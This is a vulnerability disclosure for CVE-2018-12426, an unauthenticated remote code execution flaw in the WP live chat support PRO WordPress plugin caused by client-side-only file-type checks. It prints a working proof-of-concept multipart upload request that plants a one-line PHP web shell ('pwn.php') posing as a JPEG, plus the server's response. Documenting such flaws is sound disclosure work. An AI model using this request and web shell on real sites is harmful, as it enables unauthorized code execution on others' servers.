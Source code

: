 
# CVE-2018-12426

[Suggested description]

     The WP live chat support PRO plugin before 8.0.07 for WordPress is
     vulnerable to unauthenticated Remote Code Execution due to
     client-side validation of allowed file types, as demonstrated by a
     v1/remote_upload request with a .php filename and the image/jpeg
     content type.
    
 
 [Additional Information]
 
     The following request was used to upload malicious files to the server:

     POST /wp-json/wp_live_chat_support/v1/remote_upload HTTP/1.1
     Host: localhost:8000
     Cookie: wp-settings-1=mfold%3Do%26imgsize%3Dfull%26libraryContent%3Dbrowse; wp-settings-time-1=1523622040; wplc_chat_status=5; 

      ... 7109443162421071041760069510
     Content-Disposition: form-data; name="file"; filename="pwn.php"
     Content-Type: image/jpeg

     <?php echo system($_GET["CMD"]); ?

      ... 7109443162421071041760069510
     Content-Disposition: form-data; name="timestamp"

     1528969272366
      ... 7109443162421071041760069510--

     //////////////////////////////////////////////////////////////////////////////////////////////////////////////////
     //////////////////////////////////////////////////////////////////////////////////////////////////////////////////

     The Response shows the file path where the file has been stored:

     HTTP/1.1 200 OK

     {"response":"http:\/\/localhost:8000\/wp-content\/uploads\/wp_live_chat\/\/pwn.php"}
 
 
 [Vulnerability Type]
 
    Insecure file-upload / Remote code execution
 
 
 [Vendor of Product]
 
    CodeCabin_ / WP-livechat
 
 
 [Affected Product Code Base]

    WP live chat support - PRO - All versions < 8.0.07
 
 
 [Affected Component]
 
     WP live chat support PRO - all versions < 8.0.07
 
 
 [Attack Type]
 
    Remote
 
 
 [Impact Code execution]
    
    true
 
 
 [Attack Vectors]

     The affected versions of WP live chat support PRO allow
     unauthenticated users to upload files through the chat window. The
     allowed file types (extensions) are validated by means of client side
     constraints. An attacker that submits a POST request directly to the
     endpoint which is responsible for the file-upload is able to bypass
     the client-side constraints and upload malicious files to the target
     server.
 

 [Has vendor confirmed or acknowledged the vulnerability?]

    true


 [Discoverer]
 
    Riccardo ten Cate


 [Reference]
 
    https://github.com/RiieCco/write-ups/tree/master/CVE-2018-12426
